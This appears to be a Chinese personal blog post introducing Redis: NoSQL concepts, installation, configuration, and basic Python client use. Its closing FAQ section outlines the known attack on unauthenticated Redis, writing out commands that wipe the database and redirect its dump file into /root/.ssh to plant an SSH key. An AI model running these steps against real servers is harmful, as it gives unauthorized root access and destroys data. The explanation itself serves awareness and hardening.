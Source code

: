 ```yaml
---
layout: post
title:  "redis入门"
date:   2017-06-06 20:15:00 +0800
categories: nosql
---
```


当我真正的接触到了Redis的时候，我被它的速度震惊了，因为它甚至比python内置的数据结构还要快。
在学习redis之前有几个问题可以先思考一下

1.系统的瓶颈出现在哪里？
IO读写，涉及到了磁盘操作，而这里速度是影响性能的主要因素
寄存器->内存->磁盘
依次是，存储量变大，但速度变慢。
2.NoSql是什么？
数据库有关系型数据库，结构化存储，支持SQL语句，这是我们所熟悉的，也是技术比较成熟的。
还有一种not only sql,例如redis通过key-value存储数据。
3.数据的持久化保存和速度之间的矛盾如何解决
要想持久化就不可避免的应用到磁盘，速度会下降，如何解决这两个矛盾呢？

Redis出现了，说起它的作者，你可能用过他写的另一个工具hping。
Redis有哪些特点？

1.数据可以存储到磁盘，提高可靠性
2.数据存放在内存中，可以定时保存到存储中。
3.多种数据结构的支持。

redis安装和使用

在linux上通过源码编译安装。
redis本身没有提供windows版本，但微软公司维护了一份可在windows用的redis,但是网络好像不通。
从下面这个地址获取windos版本的编译好的二进制redis文件
https://github.com/dmajkic/redis/downloads
redis-server默认会占用系统的6379号端口。
redis有多种客户端，但其本质都是连接到server，然后执行命令。

redis的配置

redis.conf文件是配置文件。

redis的数据类型

键与值在计算机术语中很常见了。
我通过python接口来学习了。
import redis
conn = redis.Redis()
1.字符串：

redis-cli中
设置键和值
set key value
获取键对应的值
get key

2.列表


3.哈希表


4.集合


5.有序集合


6.位图



总结：对于我们不了解的技术总是心生畏惧，可但凡你投入几个小时学习一下，你就话发现一片崭新的天地。

## install
```
cd redis-3.2.9
make
make install
cd utils
./install_server.sh

```

如下配置
```
Selected config:
Port           : 6379
Config file    : /etc/redis/6379.conf
Log file       : /var/log/redis_6379.log
Data dir       : /var/lib/redis/6379
Executable     : /usr/local/bin/redis-server
Cli Executable : /usr/local/bin/redis-cli

```

### 安装python接口
```
cd redis-2.10.5
python setup.py install
```
### FAQ
1. 如何配置密码？
/etc/redis/6379.conf 配置requirepass helloworld

pkill redis-server
2. 如何进行鉴权？

在用户层面只要这样就可以了
auth passsword

在实现层面会更复杂

3. python客户端做了哪些事？

例如数据库返回OK，则python把它转化为True

4.redis漏洞利用

我认为该漏洞的核心在于redis key的value竟然是明文存储的

ref:
[https://zhuoroger.github.io/2016/07/29/redis-sec/](https://zhuoroger.github.io/2016/07/29/redis-sec/)

Your public key has been saved in /root/.ssh/id_rsa.pub

echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n"
 
/root/.ssh/authorized_keys 这个是存放公钥的文件，如果这个文件中存放了别人的公钥，那么别人就可以利用他对应的私钥面密登陆。
 
如果Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是Redis 的默认配置），如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，导致其他用户可以直接在非授权情况下直接访问Redis服务并进行相关操作。
```
config get dir
1) "dir"
2) "/var/lib/redis/6379
```

```
flushall

config set dir /root/.ssh/

config set dbfilename authorize_keys

cat r.txt |redis-cli  -a redispassword -x set a
```
